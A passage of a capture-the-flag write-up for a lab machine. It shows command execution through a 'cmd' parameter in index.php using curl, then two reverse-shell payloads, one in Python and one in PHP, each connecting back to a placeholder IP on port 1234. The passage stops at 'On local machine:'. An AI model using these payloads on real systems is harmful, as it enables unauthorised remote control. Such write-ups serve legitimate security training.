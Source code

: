 **Findings:**

```
cmd [Status: 200, Size: 72]
```

> With this, we discover the `cmd` parameter, and making the same request with curl, we get a base64 encoded response.

---

## 🔧 Command Execution

```bash
curl -s 'http://10.10.171.129/assets/index.php?cmd=id'
```

**Response:**

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
curl -s 'http://10.10.171.129/assets/index.php?cmd=whoami'
```

**Response:**

```
www-data
```

> Okay nice!

---

## 🐚 Reverse Shell Attempt

```bash
http://10.10.171.129/assets/index.php?cmd=python3%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("bash")'
```

> LMAO guys while doing this my time on the machine expired and I had no idea why the reverse shell wasn’t working uhhhh hehehe.

---

## 🛠️ Alternative Shell (That Works!)

```bash
http://10.10.171.129/assets/index.php?cmd=php%20-r%20'%24sock=fsockopen("YOUR IP",1234);exec("bash <&3 >&3 2>&3");'
```

### On local machine:

